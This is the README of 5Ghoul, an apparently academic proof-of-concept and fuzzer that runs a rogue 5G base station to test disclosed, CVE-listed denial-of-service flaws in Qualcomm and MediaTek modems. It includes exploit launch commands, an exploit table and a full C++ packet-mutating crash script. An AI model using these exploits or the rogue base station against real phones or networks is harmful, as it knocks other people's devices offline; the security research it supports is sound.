







# README

## 5Ghoul - 5G NR Attacks & 5G OTA Fuzzing⚡

> Proof of Concept (PoC) of 5G NR Attacks against commercial smartphones, CPE routers, USB Modems, etc. Fuzzer included⚡. 5Ghoul is family of implementation-level 5G DoS vulnerabilities affecting **Qualcomm** and **MediaTek** mobile platforms. For more details, see [https://asset-group.github.io/disclosures/5ghoul/](https://asset-group.github.io/disclosures/5ghoul/)


***

**Table of Contents**

* [📰 Talks & Updates](#-talks--updates)
1. [📋 Requirements](#1--requirements)
2. [⏩ Quick Start (Docker Container)](#2--quick-start-docker-container)
   * 2.1 [Simulation (Testing 5Ghoul without SDR)](#21-simulation-testing-5ghoul-without-sdr)
   * 2.2 [Over-the-air packet traces (Wireshark Capture)](#22-over-the-air-packet-traces-wireshark-capture)
3. [☢️ Launching a 5Ghoul attack](#3-️-launching-a-5ghoul-attack)
   * 3.1 [Tutorial Video](#31-tutorial-video)
   * 3.2 [Summary of Available Attacks](#32-summary-of-available-attacks)
4. [📜 Create your own 5G exploits (test cases)](#4--create-your-own-5g-exploits-test-cases)
   * 4.1 [Exploits Script API Usage](#41-exploits-script-api-usage)
   * 4.2 [Example (MAC/RLC Crash C++ Script)](#42-example-macrlc-crash-c-script)
5. [🔀 Running the 5G NR Fuzzer](#5--running-the-5g-nr-fuzzer)
6. [🛠️ (Optional) Build _5Ghoul_ software from source](#6-️-optional-build-5ghoul-software-from-source)
7. [⚙️ Advanced Options](#7-️-advanced-options)
8.  [✉️ Supported 5G Protocols (Stacks)](#8-️-supported-5g-protocols-stacks)

    📝 [Citing 5Ghoul](#-citing-5ghoul)

    🙏 [Third-Party Libraries & Acknowledgements](#-third-party-libraries--acknowledgements)

    🌟 [Star History](#-star-history)

***

## 📰 Talks & Updates

* **Aug 9th, 2025 - New Bugs**: 5Ghoul discovers another 12 new vulnerabilities (**10 with HIGH severity**) in baseband modems from a major vendor. Exploits and other details will be released after the embargo. 
* **June 17th, 2025 - 5Ghoul Publication**: The technical approach embodied in 5Ghoul will appear in **IEEE TDSC**. It is available [here](https://asset-group.github.io/papers/5Ghoul.pdf).
* **October 31st, 2024 - DEFCON32 Demolabs (August 10)**: Our slides on 5Ghoul are available here: [./docs/5GhoulDefcon32Demo.pptx](./docs/5GhoulDefcon32Demo.pptx)

## 1. 📋 Requirements

* **Software:** The binary release has been tested and confirmed to work on bare-metal Ubuntu 18.04. However a docker container is provided to run _5Ghoul PoC & Fuzzer_ in **any Linux based OS capable of running Docker**. We have validated the container in `Docker version 24.0.2`. Note that **we do not recommend using any virtual machine** since the latency of USB3 needs to be kept as low as possible.
* **Hardware:**
  *   **USRP B210:** Use of a software-defined-radio (SDR) is required. We recommend the use of [**USRP B210**](https://www.ettus.com/all-products/ub210-kit/), which can be acquired directly from ETTUS. However, _5Ghoul PoC & Fuzzer_ relies on OpenAirInterface 5G software stack, which can work with other [other SDRs](https://gitlab.eurecom.fr/oai/openairinterface5g/-/wikis/OpenAirSystemRequirements#supported-rf) that might also work with our PoC.

      <div align="center">

      

      </div>

[ETTUS USRP B210](https://www.ettus.com/all-products/ub210-kit/) Software Defined Radio (SDR)

*   **(Optional) Programmable SIM Card:** Some phones do not connect to arbitrary networks without a testing SIM card (001/01 MCC and MNC respectively). To this end, we recommend using a programmable [SIM card from Sysmocom](https://sysmocom.de/products/sim/sysmousim/index.html) so you can configure its home network to 001/01.

    <div align="center">

    

    </div>

[SysmoISIM-SJA2](https://sysmocom.de/products/sim/sysmousim/index.html) programmable SIM/USIM/ISIM cards

## 2. ⏩ Quick Start (Docker Container)

To get started with _5Ghoul PoC_, we recomend usage of **5Ghoul Container**, available in our docker hub. To simplify its usage, we created a wrapper script to run the container with all the required docker arguments:

```bash
mkdir 5ghoul # Create 5ghoul folder
curl -LJO https://github.com/asset-group/5ghoul-5g-nr-attacks/raw/master/container.sh
chmod +x container.sh # Give exec. permission to the 5Ghoul container script
./container.sh run release-5g # This will pull and start the terminal of the 5Ghoul container
sudo bin/5g_fuzzer --MCC=001 --MNC=01 --GlobalTimeout=false --EnableMutation=false # Start the base station inside the container
```

The final command above (`sudo bin/5g_fuzzer ...`) will start the rogue base station without any attack. Therefore, you can use this to verify if the connection between the rogue base station and the smartphone works in first place. Once the smartphone attempts to connect to the rogue base station, the _5Ghoul PoC_ will indicate such connection by printing the message `"[!] 1/2 UE connected to eNB/gNB"`. This message indicates that your setup is working and ready to launch attacks.


### 2.1. Simulation (Testing 5Ghoul without SDR)

If you do not have an SDR, but would like to test 5Ghoul for 5G experimentation or to launch sample attacks, there is an _experimental_ simulation support provided by OpenAirInterface. You can use such simulation mode by running 5Ghoul PoC with the additional argument `--EnableSimulator=true` as shown in the Figure below. Note that you will receive an error message `UE MAC Authentication Failure`. This is because OpenAirInterface stack does not implement all the functionalities to connect the UE to the gNB during simulation. You can however use this simulation mode to check 5G captures and test custom exploit scripts:

```
sudo bin/5g_fuzzer --EnableSimulator=true --EnableMutation=false --GlobalTimeout=false
```



### 2.2 Over-the-air packet traces (Wireshark Capture)

The communication trace (.pcapng capture file) of the over-the-air communication between gNB and UE are automatically saved to folder `logs` after running the 5Ghoul PoC. You can immediately view the 5G capture in Wireshark by running the following command:

```python
./bin/wireshark logs/5gnr_gnb/capture_nr5g_gnb.pcapng
```

<div align="center">



</div>

## 3. ☢️ Launching a 5Ghoul attack

To put it simply, you can just run the following command after connecting USRP B210 to your PC/Laptop:

```bash
sudo ./bin/5g_fuzzer --exploit=mac_sch_rrc_setup_crash_var --MCC=001 --MNC=01
```

Once the 5Ghoul PoC runs, it will start a rogue base station (gNB) using the provided MCC and MNC by the command line. You can attempt to connect to this rogue base station by inserting a compatible testing SIM card and scanning for operator networks in Android mobile connectivity settings. More details on this is provided in Section Phone Configuration.

When the smartphone connects to the rogue base station and an attack is launched, the terminal will print messages such as `"Malformed rrc setup sent!"`. These messages depend on the chosen exploit script. The Figure below exemplifies the expected output for the _5Ghoul_ vulnerability **V7**, which disables the 5G connection of the smartphone. In this context, the smartphone won't be able to reconnect to the rogue base station and message `"Target is not responding"` is printed if no communication with the smartphone is possible after 45 seconds.


### 3.1 Tutorial Video

User [Cemaexecuter](https://twitter.com/cemaxecuter) prepared a video to show how to configure 5Ghoul to launch attacks against a Qualcomm-based 5G modem from Quectel.

[](https://www.youtube.com/watch?v=HN2r6esRDjM)

### 3.2 Summary of Available Attacks

Currently, _5Ghoul_ PoC has 12 exploits available. The correspondence between the exploit name and _5Ghoul_ vulnerability is shown in the Table below.

| 5Ghoul Vulnerability Name                  | Exploit Script Name                     | CVE             |
| ------------------------------------------ | --------------------------------------- | --------------- |
| V1 - Invalid PUSCH Resource Allocation     | **TBA**                                 | Pending         |
| V2 - Empty RRC dedicatedNAS-Message        | **TBA**                                 | Pending         |
| V3 - Invalid RRC Setup                     | _mac\_sch\_rrc\_setup\_crash_           | N.A (Patched)\* |
| V4 - Invalid RRC Reconfiguration            | _mac\_sch\_rrc\_reconfiguration\_crash_ | N.A (Patched)\* |
| V5 - Invalid MAC/RLC PDU                   | _mac\_sch\_mac\_rlc\_crash_             | CVE-2023-33043  |
| V6 - NAS Unknown PDU                       | _mac\_sch\_nas\_unknown\_pdu\_crash_    | CVE-2023-33044  |
| V7 - Disabling 5G / Downgrade via RRC      | _mac\_sch\_rrc\_setup\_crash\_var_      | CVE-2023-33042  |
| V8 - Invalid RRC Setup spCellConfig         | _mac\_sch\_mtk\_rrc\_setup\_crash\_4_   | CVE-2023-32842  |
| V9 - Invalid RRC pucch CSIReportConfig      | _mac\_sch\_mtk\_rrc\_setup\_crash\_2_   | CVE-2023-32844  |
| V10 - Invalid RLC Data Sequence            | _mac\_sch\_mtk\_rlc\_crash_             | CVE-2023-20702  |
| V11 - Truncated RRC physicalCellGroupConfig | _mac\_sch\_mtk\_rrc\_setup\_crash\_6_   | CVE-2023-32846  |
| V12 - Invalid RRC searchSpacesToAddModList | _mac\_sch\_mtk\_rrc\_setup\_crash\_1_   | CVE-2023-32841  |
| V13 - Invalid RRC Uplink Config Element     | _mac\_sch\_mtk\_rrc\_setup\_crash\_3_   | CVE-2023-32843  |
| V14 - Null RRC Uplink Config Element        | _mac\_sch\_mtk\_rrc\_setup\_crash\_7_   | CVE-2023-32845  |
| V15 - Invalid RRC CellGroup ID             | _mac\_sch\_mtk\_rrc\_setup\_crash\_8_   | CVE-2024-20003  |
| V16 - Invalid RRC CellGroupConfig          | _mac\_sch\_mtk\_rrc\_setup\_crash\_9_   | CVE-2024-20004  |
| DA1 - NAS Flooding Downgrade               | **TBA**                                 | N.A             |

* Vulnerabilities **V3,V4** do not seem to affect Qualcomm modems with firmware version dated since 2021.

You can list the name of all existing _5Ghoul_ exploits by passing the argument `--list-exploits` as shown below:

```bash
sudo bin/5g_fuzzer --list-exploits
...
Available Exploits:
--> mac_sch_mtk_rrc_setup_crash_3 Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_mtk_rrc_setup_crash_7 Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_rrc_setup_crash Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_mtk_rrc_setup_crash_4 Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_rrc_setup_crash_var Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_mtk_rrc_setup_crash_2 Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_mac_rlc_crash Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_mtk_rlc_crash Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_nas_unknown_pdu_crash Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_mtk_rrc_setup_crash_6 Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_mtk_rrc_setup_crash_1 Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
--> mac_sch_rrc_reconfiguration_crash Groups: [mac_sch_:203] [mac_sch_:204] [mac_sch_:205] 
```

## 4. 📜 Create your own 5G exploits (test cases)

5Ghoul supports launching customized test cases in which the user can freely modify the flow of communication between base station (gNB) and user equipment (UE). This is notably used to launch the listed exploits of the previous section, however the user can add new test cases for a plethora of applications other than launching attack packets towards the UE. The data flow diagram on how 5Ghoul handles custom exploit scripts is illustrated in the Figure below.

<div align="center">



</div>

* **Uplink Packet Interception Path** - The base station (gNB) receives a 5G NR MAC frame from the user equipment (UE). Then, the OpenAirInterface software stack forwards such MAC packet to the _5Ghoul Packet Interception API_. This Interception API is used to decode and analyze packets according to certain _filtering rules_, which are analogous to Wireshark's Display Filter. Consequently, the user can leverage such Interception API in a C++ exploit script to launch new attacks, perform packet analysis and intrusion detection, among others.

<div align="center">



</div>

* **Downlink Packet Interception Path** - Downlink packets are generated from within OpenAirInterface and then passed to the Interception API via a _**Hold**_ operation. Once the Interception API, controlled by the user, finishes processing of the hold packet, the packet is forwarded back to OpenAirInterface and finally transmitted to the target UE.

When saving a new exploit script to folder `modules/exploits/5gnr_gnb`, the 5Ghoul PoC binary will compile and load the new script during startup. You can check if your script has compiled and loaded correctly, by listing it in the exploits list: `sudo bin/5g_fuzzer --list-exploits`. It is possible for the script compilation to randomly fail, but you can try recompiling by running the 5Ghoul PoC binary again.

### 4.1. Exploits Script API Usage

5Ghoul PoC loads a script at startup from [modules/exploits/5gnr\_gnb](https://github.com/asset-group/5ghoul-5g-nr-attacks/tree/master/modules/exploits/5gnr\_gnb) and calls `int setup(wd_modules_ctx_t *ctx)` and `const char *module_name()`. Additionally, other functions are called for every received 5G packet to and from the UE (via Base Station). In this context, received **uplink packets** are firstly forwarded to `rx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)`, decoded and finally passed to `rx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)` via arguments containing the raw packet buffer (`pkt_buf`, `pkt_length`) and the _decoding context variable_ `ctx`. These callback functions need to be defined inside the exploit script created by the user. Otherwise, 5Ghoul will simply ignore calls for these functions and essentially not do anything after receiving a 5G packet. In summary, the intention of using `_pre_` and `_post_` callbacks is to allow the user to filter 5G packets before and after decoding. In the case of Downlink packets, it is possible to alter packets destined to the target UE or inject new packets. Firstly, a simple example of capturing Uplink (analysis only) is illustrated in the Figure below.

<div align="center">



</div>

#### Initialization

Detailed information on callbacks that are invoked during initialization of 5Ghoul PoC is discussed below.

*   `int setup(wd_modules_ctx_t *ctx)` - Configures 5Ghoul PoC configuration before 5G stack is started. In general, this is used to disable some options that makes 5Ghoul process times out and restart the 5G stack or disable fuzzing (mutation) since fuzzing would interfere with the exploit test cases. Additionally you can initialize variables and _declare_ filters (`wd_filter("...")`) in `setup`:

    ```c++
    int setup(wd_modules_ctx_t *ctx)
    {
        // ----- Change required configuration for exploit execution -----
        ctx->config->fuzzing.global_timeout = false; // Disable global timeout such that 5Ghoul PoC stops restarting the 5G stack
        ctx->config->fuzzing.enable_mutation = false; // Disable fuzzing (mutation) such that 5Ghoul doesn't modify downlink PDUs
        // ----- Declare filters -----
        f1 = wd_filter("rlc-nr.am.dc == 0"); // Create a wkireshark display filter for a RLC Status PDU
        return 0; // Return 0 to indicate that setup has finished without errors. Return > 0 to indicate errors
    }
    ```
*   `const char *module_name()` - Used to indicate a friendly name or description of the current exploit script to be loaded at runtime. Currently this is not used. You can return any string in this callback:

    ```c++
    const char *module_name()
    {
    	return "Any name or description";
    }
    ```

#### Uplink Interception (Packet Analysis Only)

Detailed information on callbacks that are invoked when receiving Uplink frames from the UE is discussed below.

*   `int rx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)` - Called _**BEFORE**_ an Uplink packet from the UE is decoded. You can use this to manually check the raw bytes of the Uplink packet `pkt_buf` or register filters (via `wd_register_filter`) that are to be used later in `_post_` callback. Note that `ctx->wd` is an internal context variable used to track the state of the protocol decoding:

    ```c++
    int rx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
    {
        // Register filters
        wd_register_filter(ctx->wd, f1); // Filter f1 was declared in setup function - f1 = wd_filter("rlc-nr.am.dc == 0"); 
        return 0;
    }
    ```
*   `int rx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)` - Called _**AFTER**_ an Uplink packet from the UE is decoded. You can use this to check if a condition, previously registered in `_pre_` callback, matches with the current decoded packet `pkt_buf`.

    ```c++
    int rx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
    {
        // Test if uplink packet matches filter f1, previously registered in rx_pre_dissection
        if (wd_read_filter(ctx->wd, f1))
        {
            printf("Packet filter matched here!!!!\n");
        }
        return 0;
    }
    ```

#### Downlink Interception (Packet Analysis and Mutation)

**Downlink Interception** is arguably a bit more complicated than uplink interception. This is because downlink interception offers slightly more features to the user in terms of test case creation. Whenever the Base Station wants to reply to the UE, it will generate a raw 5G MAC buffer. This buffer can be modified by the user C++ exploit script, before such buffer is ultimately transmitted over-the-air to the UE. To this end, 5Ghoul Interception API connects the `_pre_` and `_post_` callbacks in a similar fashion as Uplink, but the main difference is that transmission of a downlink packet is delayed to the UE until the `tx_post_dissection` callback finishes its execution. Since `tx_post_dissection` passes as argument the raw buffer `pkt_buf` to the function, **any change in this packet buffer will be forwarded to the Base Station software stack**, which will then transmit the mutated payload over-the-air. For this reason, it is important to remember that the user should not insert delays (e.g., `usleep`) inside both `tx_pre_dissection` and `tx_post_dissection`. Doing such would make the Base Station delay its communication downlink transmission and ultimately terminate its 5G communication with the UE. An example of the execution flow of a downlink packet through `tx_pre_dissection` and `tx_post_dissection` callbacks is illustrated in the Figure below.

<div align="center">



</div>

Detailed information on callbacks that are invoked when receiving Downlink frames to the UE is discussed in the following sections.

*   `int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)` - Called _**BEFORE**_ a Downlink packet to the UE is decoded. You can use this to manually check the raw bytes of the Downlink packet `pkt_buf` or register filters (via `wd_register_filter`) that are to be used later in `_post_` callback. Note that `ctx->wd` is a internal context variable used to track the state of the protocol decoding:

    ```c++
    int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
    {
        // Register filters
        wd_register_filter(ctx->wd, f1); // Filter f1 was declared in setup function - f1 = wd_filter("rlc-nr.am.dc == 0"); 
        return 0;
    }
    ```
*   `int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)` - Called _**AFTER**_ a Downlink packet to the UE is decoded. You can use this to check if a condition, previously registered in `_pre_` callback, matches with the current decoded packet `pkt_buf`. Consequently, inside the condition you can modify any bytes of the raw Downlink packet. The modified bytes will be then sent to the UE after the end of execution of this callback.

    ```c++
    int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
    {
        // Test if downlink packet matches filter f1, previously registered in rx_pre_dissection
        if (wd_read_filter(ctx->wd, f1))
        {
            printf("Packet filter matched here, let's mutate it!!!!\n");
            wd_log_y("Malformed MAC data sent!"); // Same as printf, but uses internal API to log messages
            pkt_buf[60 - 48] = 0xB5; // Modify raw packet at offset 12
            pkt_buf[61 - 48] = 0x02; // Modify raw packet at offset 13
            return 1;
        }
        return 0;
    }
    ```

### 4.2. Example (MAC/RLC Crash C++ Script)

A full 5Ghoul Exploit script example is provided below. The sample script below ([mac\_sch\_mac\_rlc\_crash.cpp](modules/exploits/5gnr\_gnb/mac\_sch\_mac\_rlc\_crash.cpp)) only defines callback functions to analyze downlink ( `tx_pre_dissection`, `tx_post_dissection`) since we curently focus on changing bytes of the downlink packets to launch an attack. However, if you want to create a script that analyses the response of the UE, using the uplink callbacks (`rx_pre_dissectoin` and `rx_post_dissection`) is greatly helpful.

```c++
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

const char *module_name()
{
    return "ANY NAME";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;
    ctx->config->fuzzing.enable_mutation = false;
    // Declare filters
    f1 = wd_filter("rlc-nr.am.dc == 0"); // Filter to find RLC Status PDU
    return 0;
}

// ---------------- Packet Handler for Downlink (TX) from gNB to UE ----------------
// Handler is called before packet decoding. You can register decoding filters here
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters. This needs to always be done before packet decoding
    wd_register_filter(ctx->wd, f1);
    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed MAC data sent!");
        pkt_buf[60 - 48] = 0xB5; // Modify raw packet at offset 12
        pkt_buf[61 - 48] = 0x02; // Modify raw packet at offset 13
        return 1; // Indicate that the packet payload has been mutated (i.e., changed from the original)
    }
    return 0; // Indicate that no change to the packet payload
}
```

## 5. 🔀 Running the 5G NR Fuzzer

The _5Ghoul_ fuzzer supports running in CLI mode or graphical interface. To run in graphical interface, simply add the `--gui` argument when calling the `5g_sa` binary. You can start the fuzzer as follows:

```bash
sudo bin/5g_fuzzer --MCC=001 --MNC=01 --EnableMutation=true # Run fuzzer in command line interface mode (CLI)
```

Upon successful connectivity with the smartphone or modem, the 5G fuzzer highlights mutated (fuzzed) downlink PDUs in purple. Concurrently, a live capture of the over-the-air communication between the smartphone (UE) and the rogue base station (gNB performing the fuzzing) is shown to the user. Furthermore, the communication trace and logs are saved to `logs/5gnr_gnb` .


The tool also has a graphical interface that is mostly used for development and troubleshooting the 5G connection or showcasing attack or fuzzing demos ✌. An example of the _5Ghoul_ GUI is shown below.

```bash
sudo bin/5g_fuzzer --MCC=001 --MNC=01 --EnableMutation=true --gui # Run with graphical user interface (GUI)
```


## 6. 🛠️ (Optional) Build _5Ghoul_ software from source

Several requirements need to be installed before compiling the project. An automated script for **Ubuntu 18.04** is provided on `requirements.sh`. To compile from source, simply run the following commands:

```bash
git clone https://github.com/asset-group/5ghoul-5g-nr-attacks
cd 5ghoul-5g-nr-attacks
./requirements.sh dev # Install all system requirements to compile 5ghoul fuzzer (Important)
./requirements.sh 5g # Install all system requirements to compile OpenAirInterface and Open5GS
./build.sh all # Compile all binaries WITH Wireshark. It may take around 20min. Go get a coffe!
./build.sh dev # (OPTIONAL) Compile all binaries WITHOUT Wireshark.
./build.sh # Run without arguments to quickly build the 5g_fuzzer after modifying any file inside ./src folder.
```

The expected output during the build process is shown below:


## 7. ⚙️ Advanced Options

You can list all options of 5Ghoul PoC by running it with `--help` argument as shown below:

```bash
sudo bin/5g_fuzzer --help
Fuzzer for 5G NR User Equipment (UE) - MAC-NR, PDCP-NR, RLC-NR, NAS-5GS
Usage:
  5g_fuzzer [OPTION...]

  -h, --help            Print help
      --default-config  Start with default config
  -g, --gui             Open Graphical User Interface (GUI)

 Fuzzing:
      --EnableDuplication       
      --EnableMutation           (default: true)
      --EnableOptimization       (default: true)
      --DefaultDuplicationProbability arg
                                 (default: 0.200000)
      --DefaultMutationProbability arg
                                 (default: 0.200000)
      --DefaultMutationFieldProbability arg
                                 (default: 0.100000)
      --FieldMutationBackoffMultipler arg
                                 (default: 0.500000)
      --MaxFieldsMutation arg    (default: 2)
      --NormalizeProtocolLayersMutation
                                
      --MaxDuplicationTimeMS arg
                                 (default: 6000)
      --PacketRetry             
      --PacketRetryTimeoutMS arg
                                 (default: 2500)
      --GlobalTimeout            (default: true)
      --GlobalTimeoutSeconds arg
                                 (default: 45)
      --StateLoopDetection      
      --StateLoopDetectionThreshold arg
                                 (default: 5)
      --RandomSeed arg           (default: 123456789)
      --SeedIncrementEveryIteration
                                 (default: true)
      --RestoreSessionOnStartup
                                
      --SaveSessionOnExit       
      --Selector arg             (default: 0)
      --Mutator arg              (default: 1)

 Modules:
      --exploit arg             Launch Exploit
      --list-exploits           List Available Exploits
      --list-exploits-groups    List Exploit Groups (Debug)
      --list-exploits-prefixes  List Exploit Prefixes (Debug)

 NR5G:
      --MCC arg                  (default: 001)
      --MNC arg                  (default: 01)
      --AutoStartBaseStation     (default: true)
      --AutoStartCoreNetwork     (default: true)
      --BaseStationConfigFile arg
                                 (default: n78.106.conf)
      --BaseStationArguments arg
                                 (default: --sa --continuous-tx -E)
      --CoreNetworkConfigFile arg
                                 (default: open5gs.yaml)
      --EnableSimulator         
      --SimulatorDelayUS arg     (default: 2000)
      --SimulationConnectionTimeoutMS arg
                                 (default: 1000)
      --SimulatorUEArguments arg
                                 (default: -r 106 --numerology 1 --band 78 
                                -E -C 3619200000 --rfsim --sa --ssb 516)

 Options:
      --DefaultProtocolName arg
                                 (default: proto:mac-nr-framed)
      --DefaultProtocolEncapName arg
                                 (default: encap:1)
      --SaveProtocolCapture      (default: true)
      --LiveProtocolCapture     
      --SaveLogsToFile           (default: true)
      --SaveLatencyMetrics      
      --SkipPacketProcessing    
      --Program arg              (default: 1)
      --AutoStartProgram         (default: true)
      --AutoRestartProgram      
      --LaunchProgramWithGDB    
      --MainThreadCore arg       (default: -1)
      --SaveCoreDump            

 UEModemManager:
      --APN arg                  (default: internet)
      --AllowedModes arg         (default: 4g|5g)
      --PreferredMode arg        (default: 5g)
      --Bands arg                (default: ngran-78)
      --DisableFuzzingOnFirstConnection
                                 (default: true)
      --AutoConnectModem         (default: true)
      --ConnectionTimeoutMS arg
                                 (default: 4000)
      --UseOnlyATConnections    
      --AutoConnectToAPN         (default: true)
      --ManualAPNConnection     
      --ManualAPNConnectionDelayMS arg
                                 (default: 0)
      --AutoReconnectModem       (default: true)
      --ResetModemOnGlobalTimeout
                                 (default: true)
      --GlobalTimeoutsCount arg
                                 (default: 3)
      --DefaultModemInterfacePath arg
                                 (default: /dev/cdc-wdm1)
      --AutoSearchModemInterfacePath
                                 (default: true)
      --UseInUSBIPHostSSH       
      --EnableADB                (default: true)
      --ADBDevice arg            (default: R5CT720QT7H)
      --ADBPIN arg               (default: 123123)
```

## 8. ✉️ Supported 5G Protocols (Stacks)

_5Ghoul PoC & Fuzzer_ is built upon well known protocols stack implementation. These are used to generate messages and to guide the target device towards a set of protocol procedures which are expected to be tested again unknown or insecure behaviour.

* Implementation of Network Layers 1-2 `5G MAC, RRC, RLC and PDCP`:
  * Base Station (gNB) - [Open Air Interface](https://gitlab.eurecom.fr/oai/openairinterface5g/-/tree/develop) (Open Source)
* Implementation of Layer 3 and above `NAS, IPV4, etc`:
